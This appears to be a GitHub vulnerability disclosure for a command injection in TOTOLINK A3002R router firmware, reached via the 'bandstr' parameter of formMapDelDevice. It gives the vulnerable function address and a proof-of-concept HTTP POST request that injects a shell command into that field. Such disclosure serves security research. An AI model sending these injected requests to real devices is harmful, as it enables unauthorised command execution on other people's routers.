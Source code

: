 # totolink_A3002R_remote_command_exec
**description**: a Remote-Command-Execution  in /bin/boa on totolink A3002R-V4.0.0-B20230531.1404 via parameter "bandstr"


## Firmware
**brand**:totolink   

**product**:A3002R-V4 

**version**:V4.0.0-B20230531.1404

The firmware can be downloaded from this [website][1]

## detail
**addr**:0045a2a4

**function**:FUN_0045a1f8

Using ghidra we can know that the post parameter "bandstr" will be sprintf as the second input parameter and result the command injection and the realte action is  formMapDelDevice
![alt text](./img/action.png)


![alt text](./img/image-2.png)


# poc
burp suite change the packet as follow
```
POST /boafrm/formMapDelDevice HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 163

Origin: http://192.168.0.1

Connection: close

Referer: http://192.168.0.1/multi_ap_popup_client_details.htm

Upgrade-Insecure-Requests: 1





sessionCheck=eac3d25a37ff88c5d813f312586baec9&submit-url=%2Fmulti_ap_popup_client_details.htm&macstr=123&clientoff=no&bandstr=123;echo%20123456%20> /tmp/rec1.txt
```
[![%DISPLAY_TITLE%](https://img.picgo.net/2025/03/26/poc7deff67770e22ffc.png)](https://www.picgo.net/image/poc.XX8Cm7)
![alt text](./img/poc.png)

[1]:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/258/ids/36.html
